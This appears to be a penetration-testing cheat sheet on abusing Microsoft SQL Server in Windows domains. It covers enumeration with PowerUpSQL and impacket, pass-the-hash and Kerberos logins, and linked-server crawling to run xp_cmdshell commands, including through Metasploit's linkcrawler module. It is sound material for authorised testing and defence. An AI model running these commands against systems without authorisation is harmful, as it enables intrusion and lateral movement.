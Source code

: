 ```yaml
---
label: MSSQL Abuse
disabled: true
---
```


# MSSQL Abuse

{/*TODO: How to connect to MSSQL using domain account from Linux and Windows? impacket-mssqlclient*/}

## MSSQL Authentication

There are two options of authentication settings possible to set in SQL Server:

1. Windows Authentication
2. Windows Authentication + SQL Server Authentication (mixed)

**SQL Server Authentication** involves setting up a classic login and password for the user's DB. During setup the default `sa` account is created and password must be set. The explicitly provided user’s credentials are validated through the information stored in the master database. It's way more limited than Windows Authentication and it's not recommended approach.

In **Windows authentication**, the user should first authenticate himself within AD domain. SQL Server authenticates users through the Windows security token. It doesn't require to provide credentials explicitly. Windows Authentication is the **default authentication method** when an SQL Server is installed.

## Enumeration

Windows (PowerUpSQL module):

```powershell
# Enumerate SQL servers in the current domain
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# Enumerate local SQL instances
Get-SQLInstanceLocal | Get-SQLServerInfo
```

Linux:

```bash
# Ask for SQL instances running on the target host
impacket-mssqlinstance $target_host
```

## Connection

After connecting to MSSQL Server, we are able to execute SQL Queries. This often involves the ability to execute code on the system. [Full list of further exploitation here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server).

> **NOTE**: It might be worth to check different domain credentials to verify which account has access to MSSQL Server.

Windows (PowerUpSQL module):

```powershell
# Execute SQL query using SQL Server Auth
Get-SQLQuery -Username $user -Password $password -Instance $SQL_Server_FQDN -Query "$mssql_query"

# Execute SQL query using Windows Auth
Get-SQLQuery -Instance $SQL_Server_FQDN -Query "$mssql_query"
```

Linux:

```bash
# Using SQL Server Authentication
impacket-msssqlclient $user:$password@$host

# Using Windows Auth with password
impacket-mssqlclient -windows-auth $domain/$user:$password@$host

# Using Windows Auth with NT hash
impacket-mssqlclient -windows-auth $domain/$user@$host -hashes :$nt_hash

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-mssqlclient $hostname -k -no-pass -dc-ip $dc_ip
```

## Linked servers

Any user regardless of their privilege level is allowed to use the preconfigured database links.

Windows (PowerUpSQL module):

```powershell
# Enumerate database links
Get-SQLServerLinkCrawl -Instance $SQL_Server_FQDN -Verbose

# RCE with Windows Auth (current security contex)
Get-SQLServerLinkCrawl -Instance $SQL_Server_FQDN -Query "exec master..xp_cmdshell 'whoami'"

# RCE with SQL Server Auth
Get-SQLServerLinkCrawl -Instance $SQL_Server_FQDN -Username $username $password $password -Query "exec master..xp_cmdshell 'whoami'"


Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select * from openquery(""sql2.domain.io"", 'select * from information_schema.tables')"
```

Linux:

```bash
msfconsole
> use exploit/windows/mssql/mssql_linkcrawler
> set rhost $SQL_Server_IP
> set username $username
> set password $password
```

{/*TODO: SVC hash stealing, cmd execution*/}

## References

- [Netspi, *SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server!*](https://www.netspi.com/blog/technical/network-penetration-testing/how-to-hack-database-links-in-sql-server/)
- [Quest, *SQL Server authentication vs. Windows authentication: Which to use and when*](https://blog.quest.com/sql-server-authentication-vs-windows-authentication-which-to-use-and-when/)
